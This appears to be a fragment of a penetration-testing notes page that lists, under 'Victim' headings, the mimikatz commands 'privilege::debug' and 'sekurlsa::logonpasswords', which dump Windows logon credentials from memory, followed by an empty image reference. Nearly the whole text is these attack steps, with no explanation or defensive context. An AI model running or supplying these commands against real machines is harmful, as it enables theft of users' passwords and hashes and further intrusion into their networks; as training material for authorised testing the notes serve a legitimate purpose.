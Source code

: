 **Victim(cmd)**

<pre><code><strong>mimikatz.exe
</strong></code></pre>

**Victim(mimikatz)**

<pre><code><strong>privilege::debug
</strong></code></pre>

**Victim(mimikatz)**

```
sekurlsa::logonpasswords
```

<figure><img src="../../.gitbook/assets/image (120) (1).png" alt=""><figcaption></figcaption></figure>
